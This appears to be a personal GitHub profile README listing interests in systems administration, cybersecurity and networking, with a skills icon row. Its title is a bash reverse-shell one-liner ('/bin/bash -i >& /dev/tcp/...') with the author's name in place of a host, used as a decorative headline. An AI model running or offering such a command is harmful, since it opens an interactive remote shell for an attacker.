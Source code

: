  <h1 align="center"> /bin/bash -i >& /dev/tcp/Sandra.Costales/444 0>&1 </h1>


<table><tr><td valign="top" width="50%">

- 💻 Systems Administration

- 🔐 Cybersecurity

- 🌐 Computer Network Systems




</td><td valign="top" width="50%">
<div align="center">
<img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" align="center" style="width: 100%" />
</div>

</td></tr></table>  
<br/>

<h2> Skills :</h2>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,kubernetes,docker,ansible,aws,bash,debian,elasticsearch,gitlab,grafana,html,js,kali,kubernetes,linux,md,mysql,netlify,nginx,powershell,prometheus,py,raspberrypi,ubuntu,vscode&perline=12  " />
  </a>
</p>





